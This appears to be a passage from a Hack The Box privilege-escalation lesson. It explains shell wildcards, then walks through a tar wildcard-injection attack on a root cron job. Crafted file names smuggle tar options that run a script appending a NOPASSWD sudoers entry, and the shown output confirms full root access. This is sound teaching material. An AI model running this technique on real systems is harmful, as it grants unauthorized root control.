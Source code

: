 A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:

|**Character**|**Significance**|
|---|---|
|`*`|An asterisk that can match any number of characters in a file name.|
|`?`|Matches a single character.|
|`[ ]`|Brackets enclose characters and can match any single one at the defined position.|
|`~`|A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.|
|`-`|A hyphen within brackets will denote a range of characters.|

`tar` is a common program for creating/extracting archives. Looking at the man page for `tar`, we see the following:
```shell-session
$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

The `--checkpoint-action` option permits an `EXEC` action to be executed when a checkpoint is reached. By creating files with these names, when the wildcard is specified, `--checkpoint=1` and `--checkpoint-action=exec=sh root.sh` is passed to `tar` as command-line options.

The following cron job is set up to backup the `/home/htb-student` directory's content and create a compressed archive within `/home/htb-student`. It's set up to run every minute:
```shell-session
#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

We can leverage the wildcard to create filenames that will be interpreted as command line arguments:
```shell-session
$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
$ echo "" > "--checkpoint-action=exec=sh root.sh"
$ echo "" > --checkpoint=1
```

We can check and see that the necessary files were created:
```shell-session
$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```

Once the cron job runs again, we can check for the newly added sudo privileges and sudo to root directly:
```shell-session
$ sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: ALL
```

